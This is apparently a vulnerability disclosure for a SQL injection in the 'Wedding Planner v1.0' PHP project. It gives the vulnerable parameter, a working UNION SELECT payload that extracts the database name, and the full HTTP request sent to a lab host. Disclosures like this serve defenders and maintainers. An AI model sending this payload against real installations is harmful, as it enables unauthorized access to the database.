 # Wedding Planner v1.0 by pushpam02 has SQL injection

BUG_Author: JunyuChen

vendors: https://www.sourcecodester.com/php/15375/wedding-planner-project-php-free-download.html

Vulnerability File: /Wedding-Management-PHP/admin/client_edit.php?booking=

Vulnerability location: /Wedding-Management-PHP/admin/client_edit.php?booking=, booking

[+] Payload: /Wedding-Management-PHP/admin/client_edit.php?booking=-33%20union%20select%201,2,3,4,5,database(),7,8--+&user_id=33

dbname = dbwedding

```sql
GET /Wedding-Management-PHP/admin/client_edit.php?booking=-33%20union%20select%201,2,3,4,5,database(),7,8--+&user_id=33 HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=ncd6h7doujvbbft46r0m7mbr6s
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/183276839-45f0afc6-63d3-4977-9eb1-a56999e61b2e.png)
